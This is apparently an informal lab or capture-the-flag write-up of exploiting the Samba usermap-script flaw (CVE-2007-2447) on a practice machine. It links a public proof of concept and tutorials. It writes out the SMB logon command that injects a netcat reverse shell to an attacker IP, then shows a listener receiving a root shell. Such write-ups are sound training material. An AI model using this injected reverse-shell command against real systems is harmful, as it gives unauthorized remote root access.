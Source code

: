here after searching for smb version on searchsploit i found an exploit for remote code execution

it was easily exploitable using msf but was looking for manual exploit


found a decent resource

https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py#L13


but wanted manul exploitation


checked how the code works  

i identified i can inject the reverse shell code in username field but was not able to workout how

but didnt workout for me so i searched for a video tutorial



Found this video:https://www.youtube.com/watch?v=-adLfUb2pks

and this
https://www.youtube.com/watch?v=xR4oP2lO4W0



understood i have to inject this in smb anonymous session to get a shell on port 4444

(Note: check for typo errors)

smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.48 4444`"


┌──(root💀kali)-[~/Desktop/THM]
└─# nc -lnvp 4444                                                         1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.3] 53531
whoami
root
